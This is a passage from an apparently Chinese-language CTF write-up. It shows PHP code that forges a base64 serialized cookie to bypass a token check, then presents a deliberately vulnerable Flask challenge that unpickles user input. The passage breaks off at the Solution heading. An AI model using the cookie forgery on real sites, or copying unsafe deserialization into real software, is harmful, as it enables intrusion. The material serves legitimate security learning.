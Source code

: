 也能夠說明為何我看到的字串長度少 2（`%00` * 2），同時也無法直接修改。


那這些看不見的字元自然不能被手動複製貼上，那怎麼辦哩？ ... 既然是由程式產生的，那就寫回去ㄚ。
可以直接照搬上面的產生serialize的程式碼，再將原本token產生的方式改成array即可！

{% codeblock lang:php %}
<?php

class User {
    public $name;
    private $token;

    function __construct($name) {
        $this->name = $name;
        $this->token = array();
    }
}

$user = new User("haha");
echo base64_encode(serialize($user));
{% endcodeblock %}

用PHP online之類的執行完就能把拿到的base64 code貼回去cookies，重新整理頁面拿flag ~

### 🐍 Snake (Post-solved, 272 points, 137 solves)

#### Description

點開連結，題目直接把code以純文字顯示在頁面上。

{% codeblock lang:python %}
from flask import Flask, Response, request
import pickle, base64, traceback

Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')

    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)

            if data and not data:
                return open('/flag').read()

            return str(data)
        except:
            return traceback.format_exc()

    return open(__file__).read()
{% endcodeblock %}

#### Solution
